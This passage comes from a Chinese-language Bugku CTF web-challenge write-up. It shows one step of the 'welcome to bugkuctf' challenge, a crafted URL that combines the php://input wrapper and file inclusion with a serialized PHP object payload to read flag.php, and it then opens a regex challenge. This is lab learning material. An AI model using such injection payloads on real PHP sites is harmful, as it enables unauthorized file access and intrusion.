   ![welcome_to_bugkuctf](../../imgs/Bugku/Web/gnome-shell-screenshot-J0J73Z.png)

  第二步，在index.php页面构造url为`?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

  ![welcome_to_bugkuctf](../../imgs/Bugku/Web/gnome-shell-screenshot-TAID4Z.png)

  需要注意的是此时不需要对hint.php文件进行base64编码。因为编码的目的是为了展示页面源代码，现在的目的不用展示，是把Flag类的定义进行引用。

## 26. 字符？正则

  又到了一年一度的“为什么我怎么总是学不会正则表达式？？为什么一学就忘”的无能狂怒时间。
  ![正则](../../imgs/Bugku/Web/gnome-shell-screenshot-KUJ33Z.png)
